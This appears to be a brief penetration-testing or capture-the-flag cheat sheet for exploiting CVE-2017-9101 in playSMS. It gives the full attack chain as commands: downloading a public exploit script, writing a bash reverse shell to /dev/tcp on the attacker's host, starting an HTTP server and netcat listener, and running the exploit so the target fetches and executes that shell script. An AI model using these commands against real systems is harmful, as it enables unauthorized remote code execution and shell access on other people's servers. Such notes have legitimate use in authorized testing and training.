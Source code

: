 ### Download
```
wget https://raw.githubusercontent.com/jasperla/CVE-2017-9101/master/playsmshell.py -O playsmshell.py
```

### Prepare shell.sh and insert:
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### Start listener and webserver
```
python3 -m http.server 80
nc -lnvp <lport>
```

### Exploit
```
python3 playsmshell.py --username <user> --password <password> --url http://<rhost>/playsms --command "wget <lhost>/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh"
```

### References
https://www.exploit-db.com/exploits/42044  

